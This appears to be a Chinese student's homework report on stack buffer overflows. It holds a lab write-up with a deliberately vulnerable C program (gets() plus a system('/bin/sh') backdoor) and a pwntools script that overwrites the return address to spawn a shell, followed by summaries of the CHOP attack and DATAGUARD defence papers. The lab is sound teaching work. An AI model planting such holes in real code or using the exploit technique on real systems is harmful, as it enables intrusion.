




## 1.栈溢出攻击实践

### 1.1 实验环境
- 操作系统：虚拟机 Ubuntu 16.04 LTS
- 编译器：gcc 9.3.0
- 攻击工具：python 3.8 | pwntools | IDA Pro 8.5

### 1.2 实验步骤
#### 1.2.1 编写漏洞程序
```c
#include <stdio.h>
#include <string.h>

void backdoor() {    // 自定义的函数
    system("/bin/sh"); // 后门函数执行shell
}

int main() {
    puts("网络攻击检测作业3_梁铭杰");
    char buffer[64]; // 一个缓冲区
    gets(buffer);    // 不安全的输入函数导致栈溢出
    return 0;
}
```
`gets`函数为不安全的输入函数，当输入的字符数超过缓冲区大小时，会发生栈溢出。

而`backdoor`函数为后门函数，当程序执行到该函数时，会执行`system("/bin/sh")`，即执行`/bin/sh`命令，从而获得shell。

按照程序正常执行流程，并不会执行`backdoor`函数，接下来将进行漏洞利用。


#### 1.2.2 编译漏洞程序
**为尽可能保证仅仅关注栈溢出攻击以及作业要求（使用栈溢出跳转到自定义函数）
在编译时关闭Canary金丝雀和ASLR地址随机化**
`gcc vuln.c  -fno-stack-protector  -no-pie -o vuln`
#### 1.2.2 IDA分析漏洞程序
将程序移进IDA进行反编译分析

IDA给出所有函数的地址以及反编译内容
再进入main函数的v4变量，即源代码中buffer变量缓冲区

可见需要输入0x40(buffer变量设定长度)+0x8(栈帧rbp)=0x48才能到达返回地址
**关注重点**
1. backdoor函数地址为`0x0000000004005B6`
2. 覆盖长度0x48,而往后的0x8用来覆盖地址

**攻击思路**
1. 在v4变量中输入0x48个字符后，再输入0x8个字节即可覆盖返回地址
2. 将返回地址设置为backdoor函数地址，达成利用
#### 1.2.3 编写攻击程序
```python
from pwn import *                              # 导入pwntools
context(log_level='debug',arch='amd64')        # 日志环境
backdoor = 0x0000000004005B6                    
p=process("./vuln")                            # 进程
p.recvuntil("\n")                              # 接收输入
pl = b'a'*0x48                                 # 输入0x48个字符
pl += p64(backdoor)                            # 覆盖返回地址
p.sendline(pl)                                 # 发送
p.interactive()                                # 回归用户与进程的交互
```
#### 1.2.4 攻击
##### 1.2.4.1 攻击效果

在脚本与程序交互后，程序成功执行`backdoor`函数，获得shell
回归用户与进程的交互后，输入whoami，可以显示当前用户名，与直接使用终端的用户相同
攻击利用达成
##### 1.2.4.2 攻击过程
此处交由GDB调试来具体展示过程
由于需要完成栈溢出攻击并跳转到自定义函数，因此是需要控制程序执行流
在此处只能够在main函数结束时完成攻击

因此在main函数的retn返回处下断点
**正常程序**

正常程序下，程序执行到retn处，返回到调用main函数的地址(__libc_start_main+176)，即程序结束

**攻击程序**

攻击程序下，程序执行到retn处，返回到backdoor函数，获取shell后，该程序运行结束

## 2.栈溢出攻击与防御的文献阅读
### 2.1 攻击类文献（PPT中汇报的）
#### Let Me Unwind That For You: Exceptions to Backward-Edge Protection（让我为你解开：后沿保护的例外）
##### 2.1.1 问题背景
传统的堆栈缓冲区溢出攻击（尤其是利用返回地址篡改实现的后向控制流劫持）长期以来一直是软件攻击的一个关键点。为了防范这类攻击，学术界和工业界提出了多种后向保护机制，例如栈保护(canaries)和影子栈(shadow stacks)。这些防护措施的基本假设是：攻击者必须直接篡改返回地址才能劫持控制流，从而可以通过检测返回时的数据完整性来防御攻击。
##### 2.1.2 动机


论文作者注意到，尽管这些防护机制在传统场景下非常有效，但它们普遍依赖一个关键假设：即攻击者必须通过直接控制返回地址来实现攻击。然而，论文指出，攻击者并不一定需要直接劫持返回地址，而可以利用异常处理机制在堆栈展开过程中实现控制流劫持。这种方法绕过了传统后向保护机制，从而开启了一种新的攻击范式。
##### 2.1.3 论文方案设计
论文提出了一种名为 Catch Handler Oriented Programming (CHOP) 的新型攻击技术，其核心思想在于利用常规后向保护机制未覆盖的异常处理进行堆栈展开，进而可进行传统的ROP攻击。
当程序触发异常时，运行时系统会走异常处理的流程（即“堆栈展开”），其过程中会依据堆栈上的元数据找到合适的异常处理程序（catch handler）或清理代码(cleanup handler)。如果攻击者能够利用堆栈溢出漏洞破坏堆栈数据，那么在异常处理过程中，运行时系统会按照攻击者构造的数据进行堆栈展开，进而“误导”异常处理逻辑跳转到攻击者控制的处理程序。
论文提出的 CHOP 攻击正是基于此原理展开，其核心在于定义并利用“混淆原语”（Confusion Primitives），即通过破坏特定堆栈数据结构，让异常展开逻辑误将攻击者构造的数据当作合法跳转目标或状态恢复信息。通过这种方式，攻击者可在异常处理过程中构造出多个具备关键功能的“gadget”，类似于传统 ROP（Return-Oriented Programming）攻击中所用的代码片段。作者通过对大量文件进行分析，发现这些 gadget 在现实世界中非常普遍，尤其是在使用 C++ 异常机制的程序中，异常处理器常常含有内存读写、控制流转移等指令，极易被利用构建攻击链。

##### 2.1.4 实验：
文章对多个平台（包括 Linux、macOS、Windows、Android 和 iOS）进行了跨体系结构的测试，基于 Debian Buster 发行版中的上千个流行程序包展开大规模分析。实验表明，约 10% 的程序包含可被利用的异常处理逻辑，并在其中识别出了数量庞大的潜在 CHOP gadget。另外，作者还用CVE-2009-4009和SCSSU-201801来举例通过CHOP构造的攻击样本可以在实际系统中实现任意内存写、控制流劫持及数据泄漏等复杂攻击。

##### 2.1.5 防御措施与改进建议：
在短期缓解上，论文建议在堆栈展开（异常处理）过程中扩展栈 canary 检查，从而在异常抛出时检测堆栈数据是否被修改。可以考虑对异常处理元数据进行完整性校验或者采用与异常处理紧密耦合的安全机制（例如在 shadow stack 实现上修改堆栈展开逻辑，使其依赖于更安全的备份数据）。
而对于较彻底的防御，论文建议在编译器和运行时系统中，对异常处理（包括 try/catch 块内及其清理代码）进行更严格的安全性检查，从根本上防止攻击者利用异常处理流程进行控制流劫持，或是采用先进的防护策略（如函数随机化、细粒度随机化）来降低攻击者预测异常处理代码地址的能力。
##### 2.1.6 总结和展望：
全文通过对传统后向保护机制局限性的深刻分析，展示了攻击者如何利用异常处理中的堆栈展开流程来实现控制流劫持，即 CHOP 攻击。此方法绕过了目前广泛采用的防护措施（如金丝雀和影子栈），而且在多个平台上均能成功实施，具有很强的现实威胁。未来的研究可能会进一步探讨更加完善的异常处理安全机制，以及如何在不影响性能的前提下集成更多安全检查，以防止类似 CHOP 这样的新型攻击方式。

### 2.2 防御类文献
#### The Taming of the Stack: Isolating Stack Data from Memory Errors堆栈驯服：将堆栈数据与内存错误隔离
#### 2.2.1 问题背景
传统的堆栈防护（例如使用金丝雀、影子栈以及安全栈机制）主要关注于防止对代码指针的修改，从而阻断传统的缓冲区溢出攻击，即侧重于保护返回地址等关键代码指针。然而，随着攻击技术的演进，攻击者不仅针对返回地址，还可能利用空间错误（buffer overflow/underflow）、类型错误（type confusion）和时间错误（temporal errors，如使用未初始化或已释放的指针）来修改堆栈中其他敏感数据或窃取信息。这些额外的内存错误如果得不到防护，仍然会给系统带来风险。
#### 2.2.2 动机
现有的安全机制在设计上过于保守，将大量对象归类为“不安全”，从而不得不牺牲较多不必要的操作以对这些对象进行保护；同时，部分防御仅仅能保护返回地址，而无法全面防护堆栈上的所有数据对象。论文的目标在于如何能够更精确地验证哪些堆栈对象真正安全，从而将这些对象隔离到“安全堆栈”中，以阻断各种内存错误的利用，同时降低运行时开销。
#### 2.2.3 论文方案设计


论文提出了DATAGUARD系统，作为一种新的堆栈防护方案，其核心思路是通过静态分析和约束符号执行相结合的方法，对每个堆栈对象进行安全性验证。
论文在安全性定义方面做出了扩展，不再局限于仅保护代码指针，而是要求所有被保护的堆栈对象必须在所有可能的执行路径上满足严格的安全约束。具体来说，一个堆栈对象要被认定为安全，必须确保所有可能引用该对象的指针在空间上访问都严格位于该对象的边界内，在类型转换上不会发生数值或语义上的改变，并且在使用时始终处于合法的生命周期之内。为此，作者设计了一套验证机制，既包括静态分析，也引入了符号执行技术。通过静态分析，系统可以初步对堆栈对象的定义、引用和使用情况进行推导，生成与空间、类型和时间安全相关的约束；而针对那些因过于保守而不能直接证明安全的对象，则借助符号执行进一步验证其在所有可能路径上是否满足安全条件，防止静态阶段错误的安全分类。
DATAGUARD利用LLVM平台上的中间表示（SSA形式）结合现有的程序依赖图（PDG）和SVF工具进行指针别名和活跃区间分析，并通过S2E框架对部分难以断定的情况采用有针对性的符号执行。只有那些在所有可能情况中均无安全隐患的堆栈对象，才能被归入安全类别，并最终移入与常规堆栈隔离的安全堆栈中，以完全依赖编译期生成的运行时保护机制提供高效的安全防护。
#### 2.2.4 实验评估
论文在多个服务器程序（如nginx、httpd、openvpn等）以及SPEC CPU2006基准测试上进行了评估。结果显示，DATAGUARD能够将更多原本被传统Safe Stack方法判定为不安全的堆栈对象判定为安全，从而在扩展堆栈保护范围的同时，还能降低运行时防护的性能开销。例如，在SPEC CPU006基准测试中，通过DATAGUARD方式保护堆栈对象所增加的性能开销平均由11.3%降低到4.3%。
#### 2.2.5 总结和展望
论文基于隔离栈的技术，参考OSDI'14上的一篇工作《Code-pointer integrity》，在保证代码指针的完整性基础上，通过建立更严格的安全定义，将堆栈对象的保护范围从单一的返回地址扩展到所有堆栈数据。另外通过静态分析与符号执行相结合的验证方法，确保只有在所有可能的执行情形下均满足严格安全约束的对象才被归入安全堆栈，从而在不牺牲安全性的前提下显著降低运行时检测的开销。该工作为内存错误防护提供了新的视角，不仅提高了堆栈数据的保护力度，而且为相关防御措施的改进指明了方向。
## 3. 个人心得体会
在准备此次作业的过程中，从实际操作和文献上了解到了栈溢出攻击和防御。在文献的阅读上，检索到了较多的相关文献，除了上述两篇以外，还涉及到许多顶会的论文文献（PPT中讲述），切身感受到当前研究趋势的多样化与日益精细化。
传统的缓冲区溢出攻击主要集中在利用简单的内存溢出和代码注入技术，攻击者通过构造特定的数据溢出，突破系统的基本防护措施，实现任意代码执行。面对这些攻击，最初的防御手段也相对单一，主要依赖操作系统级的内存保护和简单的补丁修复。尽管这些措施在一定程度上限制了攻击者的手段，但仍无法彻底消除漏洞。
随着攻击技术的不断发展，攻击者不再满足于简单的利用方式，而是开始运用更复杂的技术，如利用各类攻击链（如上述的CHOP）、动态生成ROP链条以及针对特定平台（例如物联网和专用硬件平台）的新型攻击手法。这种多样化的攻击方式使得传统的防护手段逐渐显示出局限性，需要从根本上升级防御策略。
在防御领域，研究者逐步从单纯的软件补救措施转向硬件与软件相结合的综合防护机制。硬件层面的防御方法，如利用硬件控制流保护与指针认证机制，显著降低了攻击成功率；同时，控制流完整性检查和编译器辅助的防御技术不断完善，通过在代码编译和运行时对潜在的利用点进行分析与约束，进一步提高了系统的整体安全性。这种多层次的防护体系有效平衡了性能和安全性，构成了应对新型攻击挑战的重要屏障。
这次的作业备使我充分认识到，栈溢出的攻击和防御对抗发展迅速。攻击手法从传统的单一模式逐步演变为更复杂、更自动化的多平台利用，而防御技术也在不断从单点防护向系统级综合防御转变。